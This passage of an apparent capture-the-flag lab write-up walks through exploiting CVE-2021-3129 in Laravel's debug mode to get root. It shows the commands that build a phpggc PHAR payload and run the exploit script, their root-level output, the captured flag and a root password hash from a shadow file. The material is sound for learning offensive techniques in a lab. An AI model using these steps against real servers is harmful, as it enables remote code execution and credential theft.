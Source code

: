 ```
```

Laravel debug mode is vulnerable to RCE.

[GitHub - ambionics/laravel-exploits: Exploit for CVE-2021-3129](https://github.com/ambionics/laravel-exploits)

For this POC to work, we need to clone first PHP GCC library to unserialize payloads.

```
⛩\> git clone https://github.com/ambionics/phpggc.git
Cloning into 'phpggc'...
remote: Enumerating objects: 2504, done.
remote: Counting objects: 100% (846/846), done.
remote: Compressing objects: 100% (471/471), done.
remote: Total 2504 (delta 331), reused 740 (delta 251), pack-reused 1658
Receiving objects: 100% (2504/2504), 379.20 KiB | 985.00 KiB/s, done.
Resolving deltas: 100% (973/973), done.

⛩\> ls
phpggc
```

Now clone this code inside PHP GGC directory.

[GitHub - ambionics/laravel-exploits: Exploit for CVE-2021-3129](https://github.com/ambionics/laravel-exploits)

```
⛩\> php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system 'id'

⛩\> python3 laravel-ignition-rce.py http://localhost:8000/ /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
uid=0(root) gid=0(root) groups=0(root)
--------------------------
+ Logs cleared
```

Successfully we got a response. We can read root flag using the same method.

```
⛩\> php -d'phar.readonly=0' ./phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system 'cat /root/root.txt'

⛩\> python3 laravel-ignition-rce.py http://127.0.0.1:8000 /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
08cc6250536b07eb04731bab84a59ac3
--------------------------
+ Logs cleared
```

We got the root flag.

```
root:$6$rGxQBZV9$SbzCXDzp1MEx7xxXYuV5voXCy4k9OdyCDbyJcWuETBujfMrpfVtTXjbx82bTNlPK6Ayg8SqKMYgVlYukVOKJz1:18836:0:99999:7:::
```


